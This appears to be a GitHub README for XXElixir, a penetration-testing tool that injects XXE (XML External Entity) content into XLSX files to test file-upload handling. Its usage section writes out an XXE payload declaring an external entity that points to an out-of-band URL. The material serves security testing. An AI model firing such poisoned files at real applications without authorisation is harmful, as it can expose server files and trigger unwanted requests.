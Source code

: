 <h1 align="center">
XXElixir 🧪
</h1>

<p align="center">
    <img src="XXElixir.svg" height="40%" width="40%" Setfill=None>
</p>

<p align="center">
This tool is designed to test for file upload and XXE (XML External Entity) vulnerabilities by poisoning an XLSX file. It allows the user to inject custom XML content or specify an out-of-band URL to retrieve data from an external entity. The tool works by unzipping the input XLSX file, modifying the workbook.xml file to include the user-specified XML content or URL, and then zipping the modified directory back into a new XLSX file. The resulting file can be used to test for file upload and XXE vulnerabilities in web applications that accept XLSX files.
</p>


## Usage 🛠 

Poison .XLSX file ☣️
```
python3 --file test.xlsx --xxe "<\!DOCTYPE ShiftSecurityConsulting [ <\!ENTITY xxe SYSTEM 'http://out-of-band.url'> ]>" --output poisoned.xlsx
```
```
python3 --file test.xlsx --url https://shiftsecurityconsulting.com --output poisoned.xlsx
```

## Running from Docker 🐳

Build
```
docker build -t xxelixir .
```

Run
```
docker run -v $(pwd)/data:/data -ti xxelixir -f data/test.xlsx -u https://shiftsecurityconsulting.com -o /data/poisoned.xlsx
```


## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url / -u | The URL for out of band testing | String
--file / -f | Input XLSX file | File
--output / -o | Output file | File
--xxe |Custom XXE injection string | String

## Contact Me 📇

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[Shift Security Consulting - Secure Your Digital Future](https://shiftsecurityconsulting.com)

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
